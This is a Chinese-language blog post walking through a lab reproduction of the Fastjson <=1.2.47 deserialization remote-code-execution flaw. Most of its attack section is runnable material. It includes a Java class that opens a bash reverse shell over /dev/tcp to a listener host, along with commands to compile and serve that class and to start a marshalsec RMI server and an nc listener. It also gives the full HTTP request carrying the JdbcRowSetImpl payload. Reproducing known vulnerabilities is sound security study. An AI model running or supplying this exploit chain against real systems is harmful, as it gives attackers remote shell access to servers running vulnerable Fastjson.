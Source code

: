 ```yaml
---
title: Fastjson反序列化
date: 2021-01-11 21:45:35
categories: 漏洞复现
tags: Fastjson
---
```


#### 背景

​	fastjson是阿里巴巴的开源JSON解析库，它可以解析JSON格式的字符串，支持将Java Bean序列化为JSON字符串，也可以从JSON字符串反序列化到JavaBean。其目前已经被广泛应用在各种场景中，包括cache存储、RPC通讯、MQ通讯、网络协议通讯、Android客户端、Ajax服务器处理程序等等。

​	而在1.2.48以前的版本中，攻击者可以利用特殊构造的json字符串绕过白名单检测，成功执行任意命令。

<!--more-->

**影响版本**

- fastjson <= 1.2.47

#### 复现过程

1.新建Exploit.java文件(名字随便起)，写入如下代码

```java
import java.io.BufferedReader;
import java.io.InputStream;
import java.io.InputStreamReader;

public class Exploit{
    public Exploit() throws Exception {
        Process p = Runtime.getRuntime().exec(new String[]{"/bin/bash","-c","exec 5<>/dev/tcp/192.168.0.108/53;cat <&5 | while read line; do $line 2>&5 >&5; done"});
        InputStream is = p.getInputStream();
        BufferedReader reader = new BufferedReader(new InputStreamReader(is));

        String line;
        while((line = reader.readLine()) != null) {
            System.out.println(line);
        }

        p.waitFor();
        is.close();
        reader.close();
        p.destroy();
    }

    public static void main(String[] args) throws Exception {
    }
}
```

注意反弹shell的地址及端口

2.编译生成**Exploit.class**

`javac Exploit.java`

3.启动简单的http服务(和生成的Exploit.class在同一目录下)

`python3 -m http.server 80`

![](http://qn.laohuan.xin/Snipaste_2021-01-11_21-25-27.png)

4.借助[marshalsec](http://github.com/mbechler/marshalsec)项目，启动一个RMI服务

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://192.168.0.108/#Exploit" 8080`

![](http://qn.laohuan.xin/Snipaste_2021-01-11_21-29-27.png)

5.nc 开启监听

`nv -lvp 53`

6.使用bp发送如下payload

```http
POST / HTTP/1.1
Host: 192.168.0.104:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/json
Content-Length: 163

{
    "b":{
        "@type":"com.sun.rowset.JdbcRowSetImpl",
        "dataSourceName":"rmi://192.168.0.108:8080/Exploit",
        "autoCommit":true
    }

}
```

注意rmi地址

![](http://qn.laohuan.xin/Snipaste_2021-01-11_21-31-17.png)



7.回弹shell

![](http://qn.laohuan.xin/Snipaste_2021-01-11_21-34-26.png)

##### fastjson检查脚本

[http://github.com/mrknow001/fastjson_rec_exploit](http://github.com/mrknow001/fastjson_rec_exploit)

##### 参考链接

[http://www.cnblogs.com/lyh1/p/nul1.html](http://www.cnblogs.com/lyh1/p/nul1.html)
[http://www.freesion.com/article/38861395538/](http://www.freesion.com/article/38861395538/)
[http://www.jianshu.com/p/e22c9dd4ed6d](http://www.jianshu.com/p/e22c9dd4ed6d)

[http://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce](http://github.com/vulhub/vulhub/tree/master/fastjson/1.2.47-rce)

